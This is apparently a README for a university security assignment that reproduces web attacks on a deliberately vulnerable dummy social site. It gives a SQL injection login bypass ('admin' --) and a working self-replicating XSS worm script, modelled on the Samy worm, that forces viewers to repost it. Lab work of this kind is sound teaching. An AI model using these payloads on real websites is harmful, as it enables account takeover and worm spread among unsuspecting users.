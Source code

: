 # ECE-5590-Attack-Reproduction

Objective: Malicious code in websites

Part 1: Build a simple dummy social networking site and use it to demonstrate SQL injection Links to an external site., XSS Links to an external site., and CSRF Links to an external site. vulnerabilities.

Part 2: Construct an XSS worm Links to an external site. to attack your site, like the Samy worm Links to an external site. that infected MySpace.

Part 3: Implement defenses against each threat. Bonus challenge: Discover an undocumented XSS vulnerability in a popular website.



## Steps


# Setup DB

```
python setup_db.py
```


# Start Website

```
python app.py
```
The site comes with 3 accounts with the following credentials:

- `admin:admin`
- `bob:bob`
- `alice:alice`

Additional accounts can be created

Register a user with the following
- Username: >username<
- Password: >password<

Log in with these credentials

# SQL injection

Go to login page and append `' --` to the username, for example:
- Username: `admin' --`
- Password: >any<

This logs you in as admin without needing the password


# XSS Worm Example

1) Login as alice (alice:alice)

2) Create a post with the following:
```
<script>
fetch('/post', {  // Sends request to create new post on website
    method: 'POST',  // Use the HTTP POST method to send data
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },  // Set the request content type

    // The body of the request contains the post content.
    body: 'content=' + encodeURIComponent('Alice is the best <scr' + 'ipt>' + 
        'fetch("/post", {' +
        'method: "POST",' +
        'headers: {"Content-Type": "application/x-www-form-urlencoded"},' +
        'body: "content=" + encodeURIComponent(\'Alice is the best <scr\'+\'ipt>\' + document.currentScript.outerHTML + \'</scr\'+\'ipt>\')' +
        '});' +
        '</scr' + 'ipt>')
});
</script>
I'm the best! 
```

3) Logout
4) Log in to bob's account (bob:bob)
5) View global feed as bob, to see alice's post
6) Logout
7) Log back in to alice
8) View global post, see that bob has reposted alice's post.

